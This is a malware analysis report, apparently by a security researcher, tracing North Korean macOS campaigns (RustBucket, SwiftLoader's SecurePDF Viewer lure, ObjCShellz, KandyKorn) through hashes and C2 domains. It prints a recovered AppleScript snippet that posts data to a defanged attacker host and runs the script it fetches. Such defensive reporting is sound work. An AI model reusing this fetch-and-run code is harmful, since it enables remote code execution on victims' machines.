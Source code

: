 
e77270ac0ea05496dd5a2fbccba3e24eb9b863d9
Aug 2023






e68bfa72a4b4289a4cc688e81f9282b1f78ebc1f
Nov 2023



Interesting among these is 26ec4630b4d1116e131c8e2002e9a3ec7494a5cf, which is written to /Users/Shared/.pld, a point we will return to below.
Recent RustBucket activity
In what at first sight appears to be an entirely different campaign, North Korean threat actors have an ongoing and evolving campaign first disclosed by JAMF dubbed RustBucket. This campaign initially involved a first stage AppleScript applet and a Swift-based application bundle called ‘Internal PDF Viewer.app’, which used specially crafted PDFs to unlock code for downloading a Rust-based payload. 

#Lazarus #APT Looks like the target is Apple developers.
8a8de435d71cb0b0ae6d4b15d58b7c85ce3ef8f06b24266c52b2bc49217be257https://t.co/aXVCAFpVP4
— 2ero (@BaoshengbinCumt) November 10, 2023
 
A number of RustBucket variants have since been sighted. Additionaly, several variations of the Swift-based stager, collectively dubbed SwiftLoader, have come to light over the last few months. 
While some of these continued to be distributed with the name “InternalPDF Viewer”, in June researchers spotted a variant called SecurePDF Viewer.app. This application was signed and notarized by Apple (since revoked) by a developer with the name “BBQ BAZAAR PRIVATE LIMITED (7L2UQTVP6F)”. SecurePDF Viewer.app requires at least macOS 12.6 (Monterey), and has the bundle identifier com.softwaredev.swift-ui-test. It is capable of running on both Intel and Apple silicon devices.
The main executable uses curl to reach out to docs-send.online/getBalance/usdt/ethereum. This retrieves a file called /gatewindow/1027/shared/ (c806c7006950dea6c20d3d2800fe46d9350266b6), an AppleScript script that when executed posts the filepath of the executing process to a remote server hosted on swissborg.blog.

set sdf to (POSIX path of (path to me))
set aaas to do shell script "curl -H \"Content-Type:application/json\" -d '{\"zip\":\""
"\"}' https[:]//swissborg[.]blog/tx/10299301992/hash"
--display dialog aaas
run script aaas
--display dialog "Can 't open this file. The file maybe damaged."

Connection to ObjCShellz
The swissborg.blog domain contacted by SecurePDF Viewer was previously mentioned by JAMF in an article in early November. 
JAMF researchers described what appeared to them as a late stage RustBucket payload distributed as a Mach-O binary called ProcessRequest. The researchers dubbed the malware ObjCShellz, in light of the fact that the code was written in Objective-C and functions to execute simple shell commands from a remote C2 via the system() function invoking sh -c.
Our research shows that ObjCShellz is highly likely a later stage of the SwiftLoader SecurePDF Viewer.app.
SwiftLoader Connection to KandyKorn RAT
Other versions of SwiftLoader have been spotted in the wild, including one distributed in a lure called Crypto-assets and their risks for financial stability[.]app[.]zip.
